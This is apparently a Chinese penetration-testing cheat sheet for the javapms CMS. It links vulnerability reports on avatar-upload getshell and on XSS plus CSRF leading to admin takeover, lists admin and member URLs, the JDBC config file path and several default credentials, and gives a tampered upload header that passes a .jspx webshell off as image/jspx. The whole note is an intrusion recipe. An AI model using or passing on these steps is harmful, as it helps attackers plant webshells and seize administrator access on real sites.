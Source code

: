 #powered by javapms

http://www.wooyun.org/bugs/wooyun-2010-077395  头像Getshell

http://www.wooyun.org/bugs/wooyun-2010-067865 存储型跨站结合CSRF可获取管理员权限+后台Getshell

http://drops.wooyun.org/tips/662  获取Jspx 菜刀shell、

/admin/login.do 后台管理
/login.jsp      登录
/reg.jsp        注册
/member/index.jsp  个人中心
/member/editInfo.jsp 修改头像

必须使用jspx
更改context-type： image/jspx

/webapps/ROOT/WEB-INF/config/jdbc/jdbc.properties

默认密码: admin javapms

	  test 123123
	  
	  demo demo
	  
	  javapms a123123
	  
	  korven  123123

抓包改包的：
Content-Disposition: form-data; name="file"; filename="java.jspx"
Content-Type: image/jspx

